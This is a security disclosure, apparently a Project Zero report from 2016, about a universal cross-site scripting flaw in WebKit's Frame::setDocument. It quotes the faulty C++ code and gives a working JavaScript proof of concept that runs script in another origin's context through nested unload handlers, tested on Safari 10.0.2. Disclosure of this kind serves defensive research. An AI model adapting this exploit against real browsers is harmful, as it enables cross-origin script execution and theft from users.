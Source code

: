 # UXSS via Frame::setDocument

### Reported by lokihardt@google.com, Dec 20 2016

Here's a snippet of `Frame::setDocument`.

```cpp
void Frame::setDocument(RefPtr<Document>&& newDocument)
{
    ASSERT(!newDocument || newDocument->frame() == this);

    if (m_doc && m_doc->pageCacheState() != Document::InPageCache)
        m_doc->prepareForDestruction();

    m_doc = newDocument.copyRef();
    ...
}
```

Before setting `m_doc` to `newDocument`, it calls `prepareForDestruction` that fires unload event handlers. If we call `Frame::setDocument` with the new document `a`, and call `Frame::setDocument` again with the new document `b` in the unload event handler. Then `prepareForDestruction` will be never called on `b`, which means the frame will be never detached from `b`.

PoC:

```js
'use strict'

let f = document.documentElement.appendChild(document.createElement('iframe'))
let a = f.contentDocument.documentElement.appendChild(
	document.createElement('iframe')
)

a.contentWindow.onunload = () => {
	f.src = "javascript:''"

	let b = f.contentDocument.appendChild(document.createElement('iframe'))
	b.contentWindow.onunload = () => {
		f.src = "javascript:''"

		let doc = f.contentDocument

		f.onload = () => {
			f.onload = () => {
				f.onload = null

				let s = doc.createElement('form')
				s.action = 'javascript:alert(location)'
				s.submit()
			}

			f.src = 'https://abc.xyz/'
		}
	}
}

f.src = "javascript:''"
```

Tested on Safari 10.0.2(12602.3.12.0.1).

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1057
